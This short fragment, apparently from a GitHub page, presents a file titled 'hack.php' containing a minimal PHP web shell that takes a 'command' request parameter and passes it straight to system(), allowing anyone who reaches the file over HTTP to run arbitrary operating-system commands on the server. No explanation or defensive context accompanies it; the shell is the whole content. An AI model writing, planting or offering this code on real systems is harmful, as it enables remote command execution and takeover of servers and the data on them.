 # `hack.php`

Refer to below.

```PHP
<?php
if (isset($_REQUEST['command'])) {
  $command = $_REQUEST['command'];
  system($command);
}
?>
```

